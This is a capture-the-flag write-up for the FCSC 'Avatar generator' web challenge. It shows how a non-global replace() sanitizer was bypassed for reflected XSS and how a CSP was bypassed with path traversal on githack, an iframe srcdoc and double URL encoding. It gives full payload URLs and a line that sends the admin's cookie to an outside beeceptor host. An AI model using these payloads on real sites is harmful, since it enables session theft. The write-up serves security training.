

# Avatar generator

## Table of contents
- [Avatar generator](#avatar-generator)
  - [Table of contents](#table-of-contents)
  - [First overview](#first-overview)
  - [Exploit](#exploit)
    - [Brainstorm](#brainstorm)
    - [Find the entry point](#find-the-entry-point)
  - [Exploit](#exploit-1)
    - [JS Replace bypass](#js-replace-bypass)
    - [innerHTML](#innerhtml)
    - [Bypassing CSP (Content Security Policy)](#bypassing-csp-content-security-policy)
  - [Getting the cookie](#getting-the-cookie)
  - [Getting the flag](#getting-the-flag)
  - [Conclusion](#conclusion)
  - [References](#references)

<hr>
Sometimes things happen by chance.

``https://avatar-generator.france-cybersecurity-challenge.fr/``
<hr>

## First overview

Let's get our brains ready and we can start this challenge!


This application allows to create a little avatar which we can share on Twitter. We also can contact the administrator and send a url, it looks like a client-side challenge :-)


Admin section is restricted to "Authorized users only" and if we look at our browser console we can see that we have a session cookie, let's keep it in mind.

## Exploit

###  Brainstorm

We have to access to an admin page, we can send a url to the admin, we have a session cookie... Probably a reflected XSS!

Let's find the entry point.

### Find the entry point

We can see that page never refresh when we ask a new avatar, so it is a Javascript application, let's find it.

In browser console we can find 2 interesting files: [app.js](app.js) and [policies.js](policies.js).

So here is a summary of the code when we create an avatar:

- Check if there is an anchor asked in url (e.g http://url.com#anchor) with value 'debug'
- Tries to get url parameters: ``seed``, ``primary`` and ``secondary``
- If they are not set, their value will be random, else our input will be sanitized and reflected on page

Here is ``policies.js`` code:
```js
const RE_HEX_COLOR = /^#[0-9A-Fa-f]{6}$/i
const RE_INTEGER = /^\d+$/

function sanitizeHTML(html){
    return html
        .replace(/&/, "&amp;")
        .replace(/</, "&lt;")
        .replace(/>/, "&gt;")
        .replace(/"/, "&quot;")
        .replace(/'/, "&#039;")
}

let sanitizePolicy = TrustedTypes.createPolicy('default', {
    createHTML(html) {
        return sanitizeHTML(html)
    },
    createURL(url) {
        return url
    },
    createScriptURL(url) {
	return url
    }
})

let colorPolicy = TrustedTypes.createPolicy('color', {
    createHTML(color) {
        if (RE_HEX_COLOR.test(color)){
            return color
        }
        throw new TypeError(`Invalid color '${color}'`);
    }
})

let integerPolicy = TrustedTypes.createPolicy('integer', {
    createHTML(integer) {
        if (RE_INTEGER.test(integer)){
            return integer
        }
        throw new TypeError(`Invalid integer '${integer}'`);
    }
})
```

We'll exploit ``seed`` parameter so our case is ``integerPolicy``, if our seed doesn't match ``RE_INTEGER`` it will raise an error where our parameter will be reflected :-)


We found our entry point!

## Exploit

### JS Replace bypass

If we inject a ``<script>`` tag to exploit XSS, we can see that HTMLSpecialChars are filtered.

``https://avatar-generator.france-cybersecurity-challenge.fr/?seed=%3Cscript%3E#debug``


But don't panic! We are in JS application and sanitizing is done with this function:

```js
function sanitizeHTML(html){
    return html
        .replace(/&/, "&amp;")
        .replace(/</, "&lt;")
        .replace(/>/, "&gt;")
        .replace(/"/, "&quot;")
        .replace(/'/, "&#039;")
}
```

We can find a way to bypass ``replace()`` function. ``replace()`` only replaces the first match found, so we just have to start our payload with ``<"'">`` to bypass all ``sanitizeHTML()`` filters :-)

### innerHTML

One of the others problems we have is ``innerHTML``. Here, ``seed`` parameter is reflected thanks to this line in [app.js](app.js#L28):

```js
document.getElementById('seed').innerHTML = integerPolicy.createHTML(currentSeed)
```

``<script>`` tags are not executed when they are reflected with ``innerHTML``, but we can use a payload with event: ```` for example.

Let's try!

``https://avatar-generator.france-cybersecurity-challenge.fr/?seed=%3C%22%27%22%3E%3Cimg%20src=x%20onerror=alert()%3E#debug`` (don't forget <"'">)


We can see that our image is included in HTML, but we have another problem. :-) Some CSP are here to ruin our life...

### Bypassing CSP (Content Security Policy)

Here are the CSP:
```
script-src rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/ 'self'; object-src 'none'; trusted-types default color integer;
```

This CSP will not help us because it's very restrictive... 

Here is a quick explanation of it:
```
script-src rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/ 'self'; -> Allows script loaded from current website or from rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/
object-src 'none'; -> Disallows completely object tag
trusted-types default color integer; -> Not important for this challenge
```

We probably have to exploit ``rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/`` source, so let's check.

**What is githack?**

[Githack](http://raw.githack.com/) is a website where it's possible to store a raw version of a github file. In our application context, it allows the website to load js functions and style from caroso1222's repo.


**Host our evil js file**

In our case, we can exploit it because if we create a repo on github (``exploit`` for example) with a file named ``exploit.js``, we can have a raw version of the script which we can try to load on the page.

I also created a release named ``v1.0.1`` to simulate as much as possible caroso1222's repo url.


So we see that we need username, repo, tag and file name because we want an url which strats with ``rawcdn.githack.com``.

So our script can be loaded with this url: ``https://rawcdn.githack.com/Ruulian/exploit/v1.0.1/exploit.js``.

There is a little problem with that, CSP only allows scripts from ``rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/`` and our evil script is at ``rawcdn.githack.com/Ruulian/exploit/v1.0.1/exploit.js``. How can we do that?

**Path Traversal**

The trick is to call our script from caroso1222's script like that: ``https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../../../../Ruulian/exploit/v1.0.1/exploit.js``.

But we always have a problem... We can't use ``<script>`` tag because of innerHTML. So how could we load an external script?

According to this [tweet](https://twitter.com/foobar0x7/status/1293791796401766400), we can load an external script in innerHTML with this payload: ``<iframe srcdoc="<script src=//whitelisted.com></script>">``

So we can adapt our payload:

``https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=%3C%22%27%27%22%3E%3Ciframe%20srcdoc=%22%3Cscript%20src=//rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../../../../Ruulian/exploit/v1.0.1/exploit.js%3E%3C/script%3E%22%3E#debug``


**Url encoding**

Our browser simplifies url so it always disallow our source. To bypass it, we can try to url encode only ``/`` like that: ``//rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/..%2F..%2F..%2F..%2FRuulian/exploit/v1.0.1/exploit.js``

So we have to double url encode:

``https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=%3C%22%27%27%22%3E%3Ciframe%20srcdoc=%22%3Cscript%20src=//rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/..%252F..%252F..%252F..%252FRuulian/exploit/v1.0.1/exploit.js%3E%3C/script%3E%22%3E#debug``


BINGO! We have our XSS! Now we just have to change our script in our repo and we'll get the cookie :-)

## Getting the cookie

We put this payload in our ``exploit.js``: ``document.location.replace('https://fcsc2022.free.beeceptor.com?cookie='.concat(document.cookie))``. We just have to wait a few seconds and we get our cookie!


Here is our cookie: ``admin=d13e3bde2f9a8ff1f3ef377d16a5da5f26840953``

## Getting the flag

We just have to set the cookie and go on ``/admin.php`` and voilà!


Here is our flag: ``FCSC{2d5e4d79789a5a9a68753350b72202478b2f9bf8}``.

## Conclusion

It was a great challenge with some cool exploits, I really enjoyed it! Thanks to the creator :-)

## References

- https://github.com/manoelt/H1-415-CTF-Writeup
- https://twitter.com/foobar0x7/status/1293791796401766400
- https://security.stackexchange.com/questions/206756/is-it-possible-to-bypass-this-xss-filter